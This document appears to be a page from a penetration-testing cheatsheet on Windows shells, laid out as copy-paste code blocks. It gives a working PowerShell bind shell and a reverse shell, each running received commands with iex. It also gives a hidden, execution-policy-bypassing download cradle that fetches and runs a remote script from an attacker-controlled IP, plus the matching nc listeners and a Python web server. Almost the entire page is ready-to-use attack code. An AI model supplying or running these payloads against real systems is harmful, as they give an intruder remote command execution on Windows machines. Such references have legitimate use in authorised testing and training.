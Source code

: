 ```yaml
---
layout: default
parent: Windows
grand_parent: Pentest Cheatsheets
title: Windows Shells
nav-order: 1
---
```


<details open markdown="block">
  <summary>
    Table of contents
  </summary>
  {: .text-delta }
1. TOC
{:toc}
</details>

**Powershell**
==========

**Bind Shell Single Line**
--------------

<details>
<summary><u>On Target</u></summary>
<p>
BIND_PORT - Port to listen for connection in
</p>
</details>


```
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',$BIND_PORT);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"  
```

<details>
<summary><u>Locally</u></summary>
<p>
BIND_PORT - Port to listen for connection in
</p>
</details>

```
nc TARGET_IP BIND_PORT
```

**Reverse Shell Single Line**
-----------------------------

<details>
<summary><u>Locally</u></summary>
<p>
BIND_PORT - Port to listen for connection in
</p>
</details>

```
nc -nlvp <REVERSE_PORT>
```

<details>
<summary><u>On Target</u></summary>
<p>
BIND_PORT - Port to listen for connection in
</p>
</details>

```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<MY_IP>',<REVERSE_PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

**Reverse Shell IEX**
---------------------


<details>
<summary><u>Locally</u></summary>
<p>
BIND_PORT - Port to listen for connection in
</p>
</details>


```
python3 -m http.server <MY_WEBPORT>
nc -nlvp 443
```

<details>
<summary><u>On Target</u></summary>
<p>
BIND_PORT - Port to listen for connection in
</p>
</details>

```
powershell.exe -executionpolicy bypass -w hidden "iex(New-Object System.Net.WebClient).DownloadString('http://MY_IP:MY_WEBPORT/MY_SCRIPT.ps1'); MY_SCRIPT.ps1"
```

**Generic**
===========
